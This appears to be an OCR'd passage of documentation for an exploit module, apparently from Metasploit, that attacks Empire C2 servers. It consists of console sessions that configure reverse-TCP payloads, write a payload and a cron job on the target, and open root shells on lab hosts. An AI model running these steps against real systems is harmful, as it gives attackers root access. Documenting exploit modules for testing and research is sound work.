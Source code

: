 ```
payload => linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/VzTAquhE
[*] Writing cron job to /etc/cron.d/LjvThMOu
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (36 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/LjvThMOu
[+] Deleted /tmp/VzTAquhE
[!] Tried to delete /agent.log, unknown result
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:47140) at 2024-07-24 18:06:08 +0900

whoami
root
```

### ProjectEmpire/Empire (03ca7bdbcc81457da8e8c1419b36adf66fe9b110) installed with Docker on Kali Linux 6.6.15 (target 2, port 8080)
```
msf > use exploit/linux/http/empire_skywalker
[*] Using configured payload linux/x86/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf exploit(linux/http/empire_skywalker) > set rport 8080
rport => 8080
msf exploit(linux/http/empire_skywalker) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf exploit(linux/http/empire_skywalker) > set cve Original
cve => Original
msf exploit(linux/http/empire_skywalker) > set target 2
target => 2
msf exploit(linux/http/empire_skywalker) > set payload linux/x64/shell/reverse_tcp
payload => linux/x64/shell/reverse_tcp
msf exploit(linux/http/empire_skywalker) > check
[*] 192.168.56.6:8080 - The target appears to be vulnerable.
msf exploit(linux/http/empire_skywalker) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[+] Successfully negotiated an artificial Empire agent
[*] Writing payload to /tmp/uuTqlfDp
[*] Writing cron job to /etc/cron.d/frDtYnmD
[*] Waiting for cron job to run, can take up to 60 seconds
[*] Sending stage (38 bytes) to 192.168.56.6
[+] Deleted /etc/cron.d/frDtYnmD
[+] Deleted /tmp/uuTqlfDp
[!] Tried to delete /agent.log, unknown result
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.6:51566) at 2024-07-24 18:08:08 +0900

whoami
root
```
